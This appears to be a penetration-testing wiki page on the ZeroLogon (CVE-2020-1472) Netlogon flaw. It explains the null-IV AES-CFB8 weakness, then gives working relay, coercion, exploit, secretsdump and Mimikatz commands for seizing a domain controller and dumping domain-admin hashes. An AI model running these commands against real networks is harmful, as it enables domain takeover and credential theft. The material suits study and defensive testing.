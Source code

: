 ```yaml
---
description: CVE-2020-1472
---
```


# ZeroLogon

## Theory

Netlogon is a service verifying logon requests, registering, authenticating, and locating domain controllers. MS-NRPC, the Netlogon Remote Protocol RPC interface is an authentication mechanism part of that service. MS-NRPC is used primarily to maintain the relationship between a machine and its domain, and relationships among domain controllers (DCs) and domains.

The CVE-2020-1472 findings demonstrated that MS-NRPC used a custom and insecure cryptographic protocol (i.e. it reuses a known, static, zero-value Initialization Vector (IV) in an AES-CFB8 mode) when establishing a Netlogon Secure Channel connection to a Domain Controller allowing for an Elevation of Privilege vulnerability.

There were many concepts to understand in the original exploit scenario (the "[password change](zerologon.md#password-change-disruptive)" one).

* **Concept #1**: authentication through MS-NRPC uses AES-CFB8. This means that for 1 in 256 possibilities, every block of the ciphertext will be `\x00` bytes if both the IV and the plaintext are `\x00` bytes.
* **Concept #2**: authentication through MS-NRPC uses a static and null IV (only `\x00` bytes, hence partly validating concept #1).
* **Concept #3**: MS-NRPC signing and sealing don't rely on the same vulnerable mechanisms but are optional and can be ignored.
* **Concept #4**: machine accounts have an unlimited number of login attempts, hence allowing for an authentication bypass and the spoofing of these accounts thanks to concepts #1 and #2 (by using a plaintext filled with `\x00` bytes and by doing enough attempts).
* **Concept #5**: the `NetrServerPasswordSet2` call can be used to reset an account's password. The new password structure to supply in this call has to be encrypted with the same vulnerable mechanisms stated in concepts #1 and #2.
* **Concept #6**: the password structure can be filled with `\x00` bytes, leading to the setting a new password of a 0 characters length for the target account.
* **Concept #7**: all previous concepts can be chained to reset a domain controller's password and obtain domain-admin privileges.

## Practice

### Authentication relay technique

Another technique, [showcased by Dirk-jan](https://dirkjanm.io/a-different-way-of-abusing-zerologon/) no later than 2 weeks after the public disclosure, highlighted another way of exploiting the vulnerability. That technique relies on a [relayed authentication](../ntlm/relay.md) to directly operate a [DCSync](../credentials/dumping/dcsync.md), hence having no impact on the continuity of services.

In order to operate the attack, the [Impacket](https://github.com/SecureAuthCorp/impacket)'s script [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) can be used.

```bash
ntlmrelayx -t dcsync://$domain_controller_2 -smb2support
```

Once the relay servers are up and running and waiting for incoming trafic, attackers need to coerce a Domain Controller's authentication (or from another account with enough privileges). One way of doing this is to rely on the [PrinterBug](../mitm-and-coerced-authentications/ms-rprn.md).

```bash
dementor.py -d $domain -u $user -p $password $attacker_ip $domain_controller_1
```

### Password change ( :warning: disruptive)

{% hint style="danger" %}
This technique can break the domain's replication services hence leading to massive disruption, running the following "password change" technique is **not advised**.
{% endhint %}

This exploit scenario changes the NT hash of the domain controller computer account in Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent disruption as much as possible, attackers can try to exploit the CVE, find the NT hash of the Domain Controller account before it was changed, and set it back in Active Directory.

{% tabs %}
{% tab title="UNIX-like" %}
The original attack path can be conducted from UNIX-like systems with the following Python scripts.

* [Secura BV's scanning PoC](https://github.com/SecuraBV/CVE-2020-1472)
* [Dirk-Jan's exploit script](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
* [Dirk-Jan's restore script](https://github.com/dirkjanm/CVE-2020-1472/blob/master/restorepassword.py)

```bash
# Scan for the vulnerability
zerologon-scan 'DC_name' 'DC_IP_address'
netexec smb $DC_IP_address -u '' -p '' -M zerologon

# Exploit the vulnerability: set the NT hash to \x00*8
zerologon-exploit 'DC_name' 'DC_IP_address'

# Obtain the Domain Admin's NT hash
secretsdump -no-pass 'Domain'/'DC_computer_account$'@'Domain_controller'

# Obtain the machine account hex encoded password with the domain admin credentials
secretsdump -hashes :'NThash' 'Domain'/'Domain_admin'@'Domain_controller'

# Restore the machine account password
zerologon-restore 'Domain'/'DC_account'@'Domain_controller' -target-ip 'DC_IP_address' -hexpass 'DC_hexpass'
```
{% endtab %}

{% tab title="Windows" %}
The attack can also be conducted from Windows systems with [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C).

```bash
# Scan for the vulnerability
lsadump::zerologon /target:'Domain_controller' /account:'DC_account$'

# Exploit the vulnerability: set the NT hash to \x00*8
lsadump::zerologon /exploit /target:'Domain_controller' /account:'DC_account$'

# Obtain the krbtgt by DCSync
lsadump::dcsync /domain:'Domain' /dc:'Domain_controller' /user:'Administrator' /authuser:'DC_account$' /authdomain:'Domain' /authpassword:'' /authntlm

# Reset the DC account's password in AD and in its SAM base
lsadump::postzerologon /target:'Domain_Controller' /account:'DC_account$'

# (alternative to postezerologon) Find the previous NT hash
//TODO

# (alternative to postezerologon) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'Domain_controller' /user:'DC_account$' /oldntlm:'31d6cfe0d16ae931b73c59d7e0c089c0' /newntlm:'previous_NThash'
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://www.secura.com/blog/zero-logon" %}

{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %}
